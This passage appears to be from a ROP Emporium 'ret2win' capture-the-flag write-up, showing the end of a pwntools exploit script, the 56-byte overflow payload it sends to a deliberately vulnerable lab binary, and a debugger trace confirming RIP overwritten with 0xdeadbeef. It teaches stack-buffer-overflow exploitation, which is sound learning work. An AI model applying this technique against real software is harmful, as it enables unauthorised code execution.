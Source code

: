 ```python
   rip,
   remaining
])

# Pwn!
io.clean()
io.sendline(payload)
io.wait()
```

```
$ python3 exploit.py
[+] Starting local process './ret2win' argv=[b'./ret2win'] : pid 4603
[*] running in new terminal: /usr/bin/gdb -q  "./ret2win" 4603
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./ret2win" 4603']
[+] Waiting for debugger: Done
[DEBUG] Received 0x100 bytes:
    b'ret2win by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!\n'
    b'What could possibly go wrong?\n'
    b"You there, may I have your input please? And don't worry about null bytes, we're using read()!\n"
    b'\n'
    b'> '
[DEBUG] Sent 0x81 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  ef be ad de  00 00 00 00  │AAAA│AAAA│····│····│
    00000030  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
    *
    00000080  0a                                                  │·│
    00000081

```

```
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0xdeadbeef
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win", stopped 0xdeadbeef in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  
```

Notice that we have successfully redirected execution of RIP to `0xdeadbeef`.
